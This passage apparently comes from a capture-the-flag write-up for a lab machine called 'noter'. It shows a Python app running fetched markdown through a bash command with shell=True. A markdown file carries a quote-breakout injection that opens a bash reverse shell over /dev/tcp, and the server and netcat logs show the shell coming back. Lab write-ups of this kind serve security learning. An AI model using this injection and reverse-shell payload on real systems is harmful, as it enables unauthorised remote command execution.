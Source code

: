 Examine the source code some more to see that some user-provided input is used in an OS command
```python
r = pyrequest.get(url,allow_redirects=True)
rand_int = random.randint(1,10000)
command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
subprocess.run(command, shell=True, executable="/bin/bash")
```
Create a file ```t.md``` with a payload of ```';bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 ; echo 's```, then use the app's "Export Notes" functionality to request ```t.md``` 
![[Pasted image 20220519145329.png]]
```bash
# Host the malicious file
python3 -m http.server 8008
Serving HTTP on 0.0.0.0 port 8008 (http://0.0.0.0:8008/) ...
10.10.11.160 - - [19/May/2022 14:54:12] "GET /t.md HTTP/1.1" 200 -

# Get callback on listener
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.160] 37928
bash: cannot set terminal process group (1260): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$
```
